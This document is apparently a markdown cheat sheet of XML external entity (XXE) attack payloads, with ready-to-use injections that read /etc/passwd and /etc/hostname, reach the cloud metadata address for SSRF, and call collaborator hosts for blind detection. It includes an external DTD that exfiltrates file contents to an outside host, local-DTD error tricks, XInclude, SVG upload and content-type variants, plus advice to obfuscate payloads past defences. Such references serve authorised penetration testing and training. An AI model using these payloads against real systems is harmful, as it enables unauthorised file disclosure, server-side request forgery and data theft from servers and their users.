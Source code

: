 # XXE Payloads
## Note

Keep in mind that XML is just a data transfer format. Make sure you also test any XML-based functionality for other vulnerabilities like XSS and SQL injection. You may need to encode your payload using XML escape sequences to avoid breaking the syntax, but you may also be able to use this to obfuscate your attack in order to bypass weak defences.

### Normal Method
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  >> For retrieving server files.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>  >> For SSRF attack.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://zhkjg0n2ikpienyuf43fiyvuelkc82wr.oastify.com"> ]>  >> For Blind xxe attack.
&xxe;
```
Example:
Before Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
After Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://x0yhzy601i8gxlhsy2md1wesxj3ar2fr.oastify.com"> %xxe; ]>  >> For Blind xxe via XML parameter entities.
```
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.
### Exploiting blind XXE via external DTD server
Host this payload with burp collaborator in external DTD server.
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://uljekvrxmftdii2pjz7amtzpigo7c50u.oastify.com/?x=%file;'>">
%eval;
%exfil;
____________________________________________
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Now paste the external DTD server link in burpsuite
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://external.dtd.server"> %xxe; ]>
```
### Exploiting XXE to retrieve data by repurposing a local DTD against known Operating System
Locate an existing DTD file to repurpose. For example, Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing. Try bruteforcing with common dtd file names via burp intruder to identify local dtd file. 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Now use this payload with identified dtd.
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
### Exploiting XInclude to retrieve files
Some applications receive client-submitted data via parameter value(id=1) without xml body, embed it on the server-side into an XML document, and then parse the document. In this situation try this method. Use &xxe; (encode & to %26) to parameter value(id=&xxe;) to identify xxe via error message. Then place this payload in value to retrieve file.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Exploiting XXE via image file upload
Change: 
    filename="test.png" to filename="attack.svg" >>
    Content-Type: image/png to Content-Type: image/svg+xml >>
Then put this payload in pixel data.
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### Exploiting XXE via modified Content-Type
Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format. 
